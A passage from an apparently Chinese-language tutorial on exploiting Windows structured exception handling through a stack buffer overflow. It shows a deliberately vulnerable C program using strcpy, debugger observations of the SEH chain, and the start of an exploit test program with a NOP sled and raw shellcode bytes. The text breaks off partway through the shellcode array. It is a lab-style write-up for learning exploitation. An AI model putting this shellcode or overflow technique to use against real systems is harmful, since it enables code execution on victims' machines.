 ```c
	printf("got an exception, press Enter to kill process!\n");
	getchar();
	ExitProcess(1);
	return 0;
}

void test(char *input)
{
	char buf[200];
	int zero = 0;
	__asm int 3
	__try
	{
		strcpy(buf, input);
		zero = 4 / zero;
	}
	__except(MyExceptionhandler()){}
}

int main()
{
	test(shellcode);
	return 0;
}
```

可以发现`strcpy(buf, input)`将可能导致溢出。另外在`__try`中我们手动触发了除零异常。当`strcpy`没有产生溢出时，除零操作将被`MyExceptionhandler`处理；当产生溢出后，除零操作将导致我们的shellcode被执行。另外，异常处理机制与堆分配机制类似，会检测进程是否处于调试态。所以我们在调试的时候依然选择`INT3`下断点，然后调试器后期attach的办法。

实验环境与上一章相同。

如上面的代码所示，我们首先向缓冲区填充200个不会导致溢出的`0x90`，在复制操作完成后，看一下情况：

![Screen Shot 2018-07-08 at 2.34.54 PM.png]({{ site.url }}/images/0day/3FF8C6ED91D4B3ED74DD14668EFF9501.png)

可以发现，缓冲区开始于`0x0012FE98`，而缓冲区结束于`0x0012FF5F`。点击Ollydbg菜单中的“查看”，选择“SEH链”，可以看到当前栈中的所有SEH：

![Screen Shot 2018-07-08 at 2.36.05 PM.png]({{ site.url }}/images/0day/C6D2D3002B2D51951F2C0931733ECF85.png)

如上图，一共有3个，离栈顶最近的位于`0x0012FF68`。也就是说，在当前函数内如果发生异常，首先被使用的就是这个SEH。

我们到栈中看一下这个位置：

![Screen Shot 2018-07-08 at 2.37.09 PM.png]({{ site.url }}/images/0day/01880A6F5389D8B6A76426A7EF4521B5.png)

现在组织shellcode，缓冲区起始地址`0x0012FE98`与异常句柄`0x0012FF6C`之间有212个字节，我们使用第三章的通用shellcode进行测试：

![Screen Shot 2018-07-08 at 3.39.06 PM.png]({{ site.url }}/images/0day/6448FCDA1B4FB508597A43BAFF9D3E3D.png)

形成测试代码如下：

```c
#include <windows.h>
#include <stdio.h>

char shellcode[] = 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xfc\x68\x6a\x0a\x38\x1e\x68\x63\x89\xd1\x4f\x68\x32\x74\x91\x0c"
"\x8b\xf4\x8d\x7e\xf4\x33\xdb\xb7\x04\x2b\xe3\x66\xbb\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xd2\x64\x8b\x5a\x30\x8b\x4b\x0c\x8b"
"\x49\x1c\x8b\x09\x8b\x69\x08\xad\x3d\x6a\x0a\x38\x1e\x75\x05\x95"
"\xff\x57\xf8\x95\x60\x8b\x45\x3c\x8b\x4c\x05\x78\x03\xcd\x8b\x59"
"\x20\x03\xdd\x33\xff\x47\x8b\x34\xbb\x03\xf5\x99\x0f\xbe\x06\x3a"
"\xc4\x74\x08\xc1\xca\x07\x03\xd0\x46\xeb\xf1\x3b\x54\x24\x1c\x75"
"\xe4\x8b\x59\x24\x03\xdd\x66\x8b\x3c\x7b\x8b\x59\x1c\x03\xdd\x03"
```